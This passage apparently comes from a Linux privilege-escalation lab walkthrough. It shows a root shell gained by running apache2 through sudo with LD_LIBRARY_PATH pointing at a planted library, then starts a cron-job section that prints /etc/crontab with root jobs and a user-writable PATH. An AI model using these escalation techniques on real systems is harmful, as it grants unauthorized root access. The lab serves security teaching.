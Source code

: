 ```

sudo LD_LIBRARY_PATH=/tmp apache2

user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/home/user# whoami
root
root@debian:/home/user# echo $IP

root@debian:/home/user# echo $SHELL
/bin/bash


```

A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

Remember to exit out of the root shell before continuing!

Answer the questions below
Read and follow along with the above.

Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

```
cat /etc/crontab

user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

user@debian:~$ 

```
